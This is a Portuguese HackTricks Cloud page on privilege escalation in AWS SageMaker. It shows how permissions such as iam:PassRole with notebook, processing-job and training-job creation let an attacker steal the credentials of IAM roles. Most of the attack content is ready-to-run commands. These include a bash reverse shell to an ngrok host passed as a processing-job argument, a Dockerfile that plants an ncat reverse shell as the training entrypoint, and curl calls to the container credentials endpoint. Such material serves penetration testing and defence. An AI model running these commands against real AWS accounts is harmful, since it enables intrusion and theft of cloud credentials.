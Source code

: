 # AWS - Sagemaker Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comece criando um notebook com a IAM Role com acesso anexado a ele:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
```markdown
O retorno deve conter um campo `NotebookInstanceArn`, que conterá o ARN da instância do notebook recém-criada. Podemos então usar a API `create-presigned-notebook-instance-url` para gerar uma URL que podemos usar para acessar a instância do notebook assim que estiver pronta:
```
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navegue até a URL com o navegador e clique em `Open JupyterLab` no canto superior direito, depois desça até a aba "Launcher" e, na seção "Other", clique no botão "Terminal".

Agora é possível acessar as credenciais de metadados da Função IAM.

**Impacto Potencial:** Privesc para a função de serviço do sagemaker especificada.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Se houver **notebooks Jupyter já em execução** e você puder listá-los com `sagemaker:ListNotebookInstances` (ou descobri-los de qualquer outra forma). Você pode **gerar uma URL para eles, acessá-los e roubar as credenciais conforme indicado na técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Privesc para a função de serviço do sagemaker anexada.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Um atacante com essas permissões pode fazer o **sagemaker executar um processingjob** com uma função do sagemaker anexada a ele. O atacante pode indicar a definição do contêiner que será executado em uma **instância de conta ECS gerenciada pela AWS**, e **roubar as credenciais da função IAM anexada**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Privesc para o papel de serviço do sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Um atacante com essas permissões poderá criar um trabalho de treinamento, **executando um contêiner arbitrário** nele com um **papel anexado** a ele. Portanto, o atacante poderá roubar as credenciais do papel.

{% hint style="warning" %}
Este cenário é mais difícil de explorar do que o anterior porque você precisa gerar uma imagem Docker que enviará o shell reverso ou credenciais diretamente para o atacante (você não pode indicar um comando de início na configuração do trabalho de treinamento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc para o papel de serviço do sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Um atacante com essas permissões poderá (potencialmente) criar um **trabalho de treinamento de hiperparâmetros**, **executando um contêiner arbitrário** nele com um **papel anexado** a ele.\
_Não explorei devido à falta de tempo, mas parece semelhante aos exploits anteriores, fique à vontade para enviar um PR com os detalhes da exploração._

# Referências
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
